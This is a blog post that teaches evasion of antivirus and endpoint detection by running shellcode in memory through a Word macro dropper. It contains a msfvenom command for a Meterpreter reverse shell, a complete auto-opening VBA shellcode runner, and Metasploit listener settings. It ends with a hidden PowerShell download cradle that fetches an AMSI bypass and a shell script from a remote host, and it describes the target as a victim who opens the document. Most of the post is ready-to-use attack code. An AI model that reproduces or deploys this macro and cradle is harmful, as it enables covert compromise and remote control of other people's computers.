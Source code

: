 ```yaml
---
layout: post
title: Running ShellCode in Memory | AV Evasion – VBA Version 

---
```

![](/images/2021-08-13-VBAShell/0.png)

If you try to download an executable to get a reverse shell on a system, it most likely will be detected and blocked by either host-based network monitoring system or AV/EDR sweeps it off, so this post we will discuss how to be stealthier and execute shell code in memory.

For the sake of this example, I am going to use a word macro as a dropper to do this.

Although it may seem complicated, all we need to do is:

***1) Use something to allocate unmanaged memory***

***2) Copy our shell code into our allocated memory from step 1***

***3) Create execution thread***

I have gone about doing these two ways:

1) Using VBA

2) Using Powershell

In this post, we will discuss how we can get this to work with VBA:

For this, we will use win32 APIs from kernal32.dll:

***1) VirtualAlloc***

***2) RtlMemory***

***3) CreateThread***



Let’s just be optimistic and generate our shellcode using msfvenom:



```
msfvenom -p windows/meterpreter/reverse_http LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -f vbapplication

```


**Couple of things to note here:**

a)	We are using 32bit arc for the meterpreter shell since MS word by default runs on 32-bit Arc

b)	We are using “thread” as exit func instead of “process” to avoid our MS word getting terminated when shell exits


***Read the MSDN docs to understand how the function used works:***

1)	[VirtualAlloc]( https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

2)	[rtlmovememory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)

3)	[Create Thread]( https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread )


**The whole VBS looks like this:**

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

buf = Array(insert shell code here)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

```



![](/images/2021-08-13-VBAShell/1.png)

Once you have this, save the word document in macro format such as .doc or .docm

Set up the listener:

```
set payload windows/meterpreter/reverse_http
set LHOST x.x.x.x
set LPORT 443
set EXITFUNC thread
set set ReverseListenerBindAddress <internal IP>
exploit
```

Once, the victim opens the macro document the shell code runs in memory and we get a reverse shell:



![](/images/2021-08-13-VBAShell/2.png)


![](/images/2021-08-13-VBAShell/3.png)


Now this is a low-profile technique, but there are some issues with this:

***1)	The shell code present in word document which is saved on hard drive might get detected by the AV***

***2)	Whenever the word file is closed the session get terminated since the SPAWNED process is a child of word file.***

## How can we improve these and make things more efficient?

I will write up on this in a different post, but I will give the folks reading this post a chance to try it for themselves, so here are some clues:

***1)	Use Powershell for this, Powershell cannot interact with win32 API directly, so use C# with the help of .NET framework (DllImportAttribute class).***

***2)	Use P/Invoke APIs contained in the System.Runtime.InteropServices and System namespaces (changing C to C# datatype)***

Ref: [P/Invoke](www.pinvoke.net )

***3)	Now use Add-Type in PowerShell to compile and create object***

Reference: [Add-Type Example](http://adamringenberg.com/powershell2/Add-Type/ )

***4)	Use .NET Copy method to copy the shellcode into memory***

***5)	Finally, before running the shell code in memory make sure to use an AMSI bypass to run first (use PowerShell download cradle)***

Something like this:

```
Sub ShellCodeRunner() 

Dim str As String
  
str = "powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/AmsiBypass.ps1'); IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/Shell.ps1')"
Shell str, vbHide End Sub
```

You just need to craft the content of shell.ps1 as your homework :)






















